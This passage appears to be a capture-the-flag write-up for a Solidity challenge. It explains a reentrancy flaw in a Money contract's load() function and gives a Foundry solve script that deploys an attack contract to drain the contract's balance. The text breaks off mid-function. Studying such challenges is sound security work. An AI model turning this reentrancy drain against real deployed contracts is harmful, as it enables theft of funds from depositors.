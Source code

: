 **Setup.sol**

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Money.sol";

contract Setup {
    Money public immutable moneyContract;
    Captcha public immutable captchaContract;
    constructor() payable {
        require(msg.value == 100 ether);
        captchaContract = new Captcha();
        moneyContract = new Money(captchaContract);
        moneyContract.save{value: 10 ether}();
    }
    function isSolved() public view returns (bool) {
        return address(moneyContract).balance == 0;
    }
}
```

**Goal**

We need to drain the `moneyContract` balance.

**Attack**

1. We are given with more than the money of the moneyContract Balance.
2. In `Money.sol`, `load()` function is vulnerable to the great Reentrancy attack.
3. The balance of the contract is updated after the external call.
4. By using `fallback()` function we can hijack the call, and drain the balance of `moneyContract`. 


**Solve.s.sol**

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Setup, Money} from "../src/Setup.sol";
import {Script,console} from "forge-std/Script.sol";

contract Solve is Script {
    Setup chall = Setup(0x63d3C2B31E3c743631C2bF90c82aE5333E98CB54);
    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Money money = chall.moneyContract();
        uint256 secret = money.secret();
        console.log("Before# ",address(money).balance);
        new Attack(address(money), secret).deposit{value: address(money).balance}();
        console.log("After# ",address(money).balance);
        console.log("Solved# ", chall.isSolved());
    }
}

contract Attack {
    Money money;
    uint256 secret;

    constructor(address _money, uint256 _secret) {
        money = Money(_money);
        secret = _secret;
    }

    function deposit() external payable {
```